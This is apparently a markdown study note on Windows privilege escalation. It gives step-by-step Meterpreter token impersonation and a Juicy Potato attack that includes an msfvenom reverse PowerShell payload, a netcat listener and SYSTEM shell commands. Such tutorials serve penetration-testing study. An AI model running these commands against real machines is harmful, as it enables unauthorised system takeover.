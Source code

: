 # Token Impersonation (Windows Privilege Escalation)

### 🔑 What is a Token?

A **token** in Windows is like a **web cookie** — it temporarily grants access so a user doesn't need to re-enter credentials every time they access files or resources.

### 🧠 Types of Tokens

1. **Delegate Token**
    - Created during **interactive logins**
    - Example: When you log in via **Remote Desktop (RDP)** or directly at the machine
2. **Impersonation Token**
    - Created during **non-interactive logins**
    - Example: When you map a network drive or run a logon script

## **Step-by-Step Exploitation**

### **1. Get a Meterpreter Shell**

First establish a foothold on the target machine.

> ⚠️ Requires Meterpreter from Metasploit
> 

### **2. Load Incognito Module**

```
use incognito
```

### **3. List Available Tokens**

- **List available tokens:** `list_tokens -u`
- Look for **delegation** or **impersonation** tokens (especially those of admin/system users)

```
list_tokens -u
```

Example output:

```
Delegation Tokens Available
========================================
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
SNEAKS.IN\Administrator

Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON
```

### **4. Impersonate a Privileged Token**

```
impersonate_token SNEAKS.IN\\Administrator
```

*Note:* Use double backslashes (**`\\`**) in the username

### **5. Verify Your New Identity**

```
getuid
```

### **6. Get a Shell with New Privileges**

```
shell
whoami
```

You should now be running as the impersonated user!


# 🥔 Juicy Potato — Privilege Escalation via SeImpersonatePrivilege

### 🔍 What is Juicy Potato?

**Juicy Potato** is a Windows local privilege escalation tool that abuses the **SeImpersonatePrivilege** to gain **SYSTEM-level access** from a low-privileged user account.

### ✅ Requirements

- You already have **a shell** (or Meterpreter session) on the **target machine**
- The user must have the `SeImpersonatePrivilege` **enabled**

### 🧪 Step-by-Step Guide

### 1️⃣ Check User Privileges

On the target machine, run:

```bash
whoami /priv
```

Look for this line:

```
SeImpersonatePrivilege      Enabled
```

> ✅ If it's enabled, you can continue with the Juicy Potato attack!
> 

### 2️⃣ Download Juicy Potato

Download the executable from:

👉 https://github.com/ohpe/juicy-potato

Rename it (for simplicity):

```bash
jp.exe
```

Copy it to the **victim machine**.

### 3️⃣ Create a Malicious Payload

On your **attacker machine** (Kali), generate a reverse shell in `.bat` format:

```bash
msfvenom -p cmd/windows/reverse_powershell LHOST=<Your_IP> LPORT=<Your_Port> -f raw > myshell.bat
```

Replace `<Your_IP>` and `<Your_Port>` with your Kali IP and chosen port.

Upload `myshell.bat` to the **victim machine**.

### 4️⃣ Start Netcat Listener

On your Kali machine:

```bash
nc -nlvp <Your_Port>
```

### 5️⃣ Run Juicy Potato Exploit

On the victim machine:

```bash
jp.exe -t * -p myshell.bat -l 4444
```

- `t *` = Try all available COM types
- `p myshell.bat` = The payload you want to run
- `l 4444` = Port used by the fake COM server (can be any unused port)

### 🎉 Result

You should now get a **reverse shell as SYSTEM** on your Netcat listener!
